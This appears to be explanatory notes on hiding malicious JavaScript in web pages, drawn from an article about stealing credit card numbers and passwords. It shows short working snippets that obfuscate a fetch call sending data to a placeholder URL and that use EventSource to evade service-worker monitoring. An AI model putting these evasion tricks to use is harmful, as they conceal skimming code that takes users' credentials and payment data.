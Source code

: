 Sources:
1) https://hackernoon.com/im-harvesting-credit-card-numbers-and-passwords-from-your-site-here-s-how-9a8cb347c5b5

### Hiding malicious Javascript code
Sometimes, Javascript may be hidden by using a huge variety of methods to simply allow Javascript to evaluate jumbled up strings to function names etc.

For example, running `fetch` and sending passwords in URL parameters can easily raise suspicions. Any mention of things like `fetch` or `XMLHttpRequest` might become investigated.

Some examples taken from source 1 for hiding `fetch` are:
```javascript {cmd="node"}
const i = 'gfudi';
const k = s => s.split('').map(c => String.fromCharCode(c.charCodeAt() - 1)).join('');
self[k(i)](urlWithYourPreciousData);
```
`gfudi` is just the word `fetch` with each character shifted up by a value of 1. A very simple way to hide your true intentions.

`self` is also an alias for `window` and as such, `self['\u0066\u0065\u0074\u0063\u0068'](...)` will also call `fetch`.

Obfuscating code is an infinite topic and simply "noticing" something like this shouldn't be relied on as the code could be obfuscated in a million different ways.

#### Hiding fetch requests
`new EventSource(urlWithYourPreciousData)` can simply be called where possible to avoid a serviceWorker listening for `fetch` requests. Our request will get by unnoticed.
